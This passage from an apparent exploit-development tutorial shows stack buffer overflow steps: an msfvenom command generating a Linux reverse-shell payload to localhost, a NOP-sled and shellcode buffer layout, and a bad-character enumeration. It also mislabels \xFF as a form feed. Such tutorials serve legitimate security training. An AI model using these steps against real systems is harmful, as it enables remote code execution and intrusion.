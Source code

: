 Now we see that we have overwritten the **EIP** with our "\x66" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend.

## Determine the Length for Shellcode 

It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use **msfvenom**.
```console
zero@pio$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c 

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some **No Operation Instruction** (NOPS) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:
- We need a total of 1040 bytes to get to the **EIP**
- Here, we can use an additional 100 bytes of **NOPs**
- 150 bytes for our shellcode 

The length will be:
```
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4'
```

## Identification of Bad Characters 

Previously in UNIX-like operating systems, binaries started with two bytes containing a "**magic number**" that determines the file type. In the beginning, this was used to identify object files for different platforms. Gradually this concept was transferred to other files, and now almost every file contains a magic number.

These reserved characters, also known as **bad characters** can vary, but often we will see characters like this:
- `\x00` - Null Byte
- `\x0A` - Line Feed
- `\x0D` - Carriage Return
- `\xFF` - Form Feed

To calculate the number of bytes in our CHARS variable, we can use bash by replacing the "\x" with space and then use wc to count the words:
```console
zero@pio$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

zero@pio$ echo $CHARS | sed 's/\\x/ /g' | wc -w

256
```
